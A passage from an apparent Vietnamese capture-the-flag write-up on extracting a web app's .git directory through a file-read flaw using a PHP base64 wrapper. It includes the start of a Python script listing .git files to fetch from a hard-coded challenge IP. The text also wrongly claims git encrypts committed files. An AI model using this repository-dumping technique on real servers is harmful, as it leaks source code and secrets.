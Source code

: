 Nhưng ta chỉ cần nhớ mấu chốt ở ổ này là khi các bạn thêm file nào đó vào trong một commit, thì những file đó sẽ được `encrypt`, `compress` và được chứa như là một object được gọi là `blobs` và sử dụng thuật toán `SHA-1` cho mỗi `blob` để định danh riêng cho nó (ngoài ra còn có các khái niệm `tree` và `commit` nữa). Và thư mục `objects` trong folder `.git` là nơi chứa những thứ đó. Thêm một điều mà mình biết nữa là các file trong commit được compress bằng `zlib`. Vậy nên ta chỉ cần kéo các `blob` này về và `decompress với zlib` là ta có thể đọc được những file đã được thêm vào `repo`.

Và ở đây mình sẽ dùng `php wrapper` để đọc dữ liệu dưới dạng `base64` để tránh trường hợp đọc thiếu, sót các byte rồi dẫn đến lỗi trong quá trình `decompress`. Nên việc đầu tiên mình cần làm là đọc và lưu những file cơ bản về trước đã

```
# get_file.py

#!/usr/bin/env python3
import requests
import re
import os
import zlib
import base64
import sys

url = 'http://61.28.237.24:30102/'
r = requests.Session()

tasks = [
        ".gitignore",
        ".git/COMMIT_EDITMSG",
        ".git/description",
        ".git/hooks/applypatch-msg.sample",
        ".git/hooks/commit-msg.sample",
        ".git/hooks/post-commit.sample",
        ".git/hooks/post-receive.sample",
        ".git/hooks/post-update.sample",
        ".git/hooks/pre-applypatch.sample",
        ".git/hooks/pre-commit.sample",
        ".git/hooks/pre-push.sample",
        ".git/hooks/pre-rebase.sample",
        ".git/hooks/pre-receive.sample",
        ".git/hooks/prepare-commit-msg.sample",
        ".git/hooks/update.sample",
        ".git/index",
        ".git/info/exclude",
        ".git/objects/info/packs",
        ".git/FETCH_HEAD",
        ".git/HEAD",
        ".git/ORIG_HEAD",
        ".git/config",
        ".git/info/refs",
        ".git/logs/HEAD",
        ".git/logs/refs/heads/master",
        ".git/logs/refs/remotes/origin/HEAD",
        ".git/logs/refs/remotes/origin/master",
        ".git/logs/refs/stash",
        ".git/packed-refs",
        ".git/refs/heads/master",
        ".git/refs/remotes/origin/HEAD",
        ".git/refs/remotes/origin/master",
        ".git/refs/stash",
        ".git/refs/wip/wtree/refs/heads/master",  # Magit
        ".git/refs/wip/index/refs/heads/master"  # Magit
    ]
def get_token():
	resp = r.get(url)
	return re.findall(r'<input name="token" value="(.*)" hidden>', resp.text)[0]
```